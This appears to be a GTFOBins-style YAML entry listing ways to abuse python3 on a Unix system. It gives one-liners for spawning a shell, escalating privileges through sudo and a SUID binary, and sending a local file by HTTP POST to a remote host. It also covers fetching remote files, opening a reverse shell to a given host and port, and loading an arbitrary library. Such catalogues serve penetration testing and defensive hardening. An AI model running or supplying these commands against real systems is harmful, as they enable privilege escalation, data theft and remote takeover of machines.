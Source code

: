 ```yaml
---
functions:
  exec-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request.
      code: |
        export URL=http://10.0.0.1/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://10.0.0.1/file_to_get
        export LFILE=file_to_get
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  reverse-shell:
    - code: |
        export RHOST=127.0.0.1
        export RPORT=8000
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

